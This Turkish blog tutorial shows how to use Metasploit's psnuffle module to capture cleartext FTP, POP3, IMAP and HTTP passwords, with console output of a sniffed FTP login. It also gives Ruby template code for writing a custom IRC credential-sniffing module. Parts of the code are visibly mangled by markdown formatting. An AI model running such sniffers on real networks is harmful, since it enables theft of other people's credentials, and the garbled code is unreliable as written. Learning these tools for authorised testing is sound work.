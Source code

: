 ```yaml
---
draft: false

title:  'MSF İçinde Parola Dinleme'
date: '2017-05-16T12:56:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.' 
 
url:  /tr/msf-icinde-parola-dinleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.



`psnuffle` modülü, neredeyse hiçbir ayarlama yapmaya gerek kalmadan kullanılabilir. İsterseniz dışarıdan PCAP dosyası ithal edebilirsiniz. Buradaki örnekte, ayarlar olduğu gibi kullanılacaktır.


```bash
msf > use auxiliary/sniffer/psnuffle
msf auxiliary**(**psnuffle**)** > show options

Module options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILTER                      no        The filter string **for **capturing traffic
   INTERFACE                   no        The name of the interface
   PCAPFILE                    no        The name of the PCAP capture file to process
   PROTOCOLS  all              yes       A comma-delimited list of protocols to sniff or "all".
   SNAPLEN    65535            yes       The number of bytes to capture
   TIMEOUT    1                yes       The number of seconds to wait **for **new data

msf auxiliary**(**psnuffle**)** > run
> Auxiliary module execution completed
> Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
> Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
> Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
> Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
> Sniffing traffic.....
> Successful FTP Login: 192.168.1.100:21-192.168.1.5:48614 **>>** victim / pass **(**220 3Com 3CDaemon FTP Server Version 2.0**)**
```



Gördüğünüz gibi FTP protokolünde `victim` kullanıcı adı ve `pass` parolası ortaya çıkarıldı.



## Psnuffle Özelleştirme



İsterseniz, `psnuffle` aracını, varsayılan olarak dinlediği protokoller haricinde diğer protokoller için de tasarlayabilirsiniz.



Bu özelleştirme işlemi için yapılacak modüller, data/exploits/psnuffle klasörünün içine kaydedilmelidir. Yeni bir modül geliştirmek için öncelikle var olan bir modülü şablon olarak kullanabiliriz.



Aşağıda, POP3 modülünün Düzenli ifadeler kısmı görülmektedir. Bu düzenli ifadeler, dinleme esnasında hangi tür şablona uyan verilerin dikkate alınacağını tanımlamaktadır. Bir miktar karışık gibi görünebilir. Ancak düzenli ifadeleri öğrenmenizi tavsiye ediyoruz. Her yerde karşınıza çıkar ve öğrenirseniz, işinizi kolaylaştırırlar.


```bash
self.sigs **=** **{**
:ok **=>** /^**(**+OK[^n]*******)**n/si,
:err **=>** /^**(**-ERR**[**^n]*******)**n/si,
:user **=>** /^USERs+**([**^n]+**)**n/si,
:pass **=>** /^PASSs+**([**^n]+**)**n/si,
:quit **=>** /^**(**QUITs*******[**^n]*******)**n/si **}**
```



## IRC Modülü



Aşağıdaki örneklerde, IRC protokolü için yazılmış bir modülde olması gerekenleri görebilirsiniz.



Öncelikle, dikkate alınacak sinyal tiplerini tanımlayalım. Buradaki IRC komutlarından IDENTIFY, her IRC sunucu tarafından kullanılmamaktadır. En azında Freenode bu şekilde kullanır.


```bash
self.sigs = {
:user => /^(NICKs+[^n]+)/si,
:pass => /b(IDENTIFYs+[^n]+)/si,}
```



## Oturum Tanımlama (Session)



Her modül için mutlaka tanımlanması gereken kısım, hangi Portlar ile ilgileneceğidir. Bu tanımlama için aşağıdaki şablonu kullanabilirsiniz.


```bash
**return if **not pkt[:tcp] # We don't want to handle anything other than tcp
**return if** **(**pkt[:tcp].src_port **!=** 6667 and pkt[:tcp].dst_port **!=** 6667**)** # Process only packet on port 6667

#Ensure that the session hash stays the same for both way of communication
**if** **(**pkt[:tcp].dst_port **==** 6667**)** # When packet is sent to server
s **=** find_session**(**"#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}-#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}"**)**
**else** # When packet is coming from the server
s **=** find_session**(**"#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}-#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}"**)**
end
```



Şimdi ise `self.sigs` bölümünde şablonu oluşturulan türde bir paket yakalandığında ne yapılacağını ayarlamanız gerekmekte. Bunun için de aşağıdaki şablonu kullanabilirsiniz.


```bash
**case** matched
when :user # when the pattern "/^(NICKs+[^n]+)/si" is matching the packet content
s[:user]**=**matches #Store the name into the session hash s for later use
# Do whatever you like here... maybe a puts if you need to
when :pass # When the pattern "/b(IDENTIFYs+[^n]+)/si" is matching
s[:pass]**=**matches # Store the password into the session hash s as well
**if** **(**s[:user] and s[:pass]) # When we have the name and the pass sniffed, print it
print "-> IRC login sniffed: #{s[:session]} >> username:#{s[:user]} password:#{s[:pass]}n"
end
sessions.delete**(**s[:session]**)** # Remove this session because we dont need to track it anymore
when nil
# No matches, don't do anything else # Just in case anything else is matching...
sessions[s[:session]].merge!**({**k **=>** matches**})** # Just add it to the session object
end
```



Tebrikler kendi modülünüzü yazdınız.
